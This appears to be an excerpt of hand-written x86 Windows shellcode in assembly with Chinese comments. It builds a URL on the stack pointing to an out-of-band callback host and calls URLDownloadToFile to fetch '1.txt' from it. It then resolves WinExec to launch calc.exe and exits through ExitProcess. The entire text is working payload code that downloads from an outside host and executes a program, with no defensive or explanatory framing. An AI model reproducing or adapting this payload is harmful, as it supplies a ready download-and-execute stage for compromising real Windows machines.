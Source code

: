 ```assembly
        ; 调URLDownloadToFIle
        xor ecx, ecx;
        push word ptr 0074h; t
        push 78742E31h; 1.tx
        mov esi,esp;
        push word ptr 0074h; t
        push 78742E31h; 1.tx
        push 2F6D6F63h; com /
        push 2E687374h; tsh.
        push 63617265h; erac
        push 746E692Eh; .int
        push 62797979h; yyyb
        push 79796F6Eh; noyy
        push 34726B64h; dkr4
        push 6730646Eh; nd0g
        push 746E3030h; 00nt
        push 30306374h; tc00
        push 76323833h; 382v
        push 6D396D36h; 6m9m
        push 632F2F3Ah; ://c
        push 70747468h; http
        mov edi, esp;
        push ecx;
        push ecx;
        push esi;
        push edi;
        push ecx;
        call eax; "URLDownloadToFIle"
        add esp, 0x44;

        ; 查找WinExec地址
        mov edx, [esp + 0x4]
        mov ebx, [esp + 0x8]
        xor ecx, ecx;
        push ecx;
        push 636578h; xec
        push 456E6957h; WinE
        push esp
        push ebx
        call edx;"GetProcAddress"
        add esp,0xc
        ; 执行命令 calc.exe
        xor ebx, ebx;
        push ebx;
        push 6578652Eh;.exe
        push 636C6163h; calc
        mov esi, esp
        push 10
        push esi
        call eax
        add esp,0xc
        ; 查找ExitProcess地址并调用
        mov edx, [esp + 0x4]
        mov ebx, [esp + 0x8]
        push 0x00737365; sse
        push 0x636f7250; corP
        push 0x74697845; tixE
        push esp
        push ebx
        call edx
        xor ecx, ecx
        push ecx; exit_code = 0
        call eax
```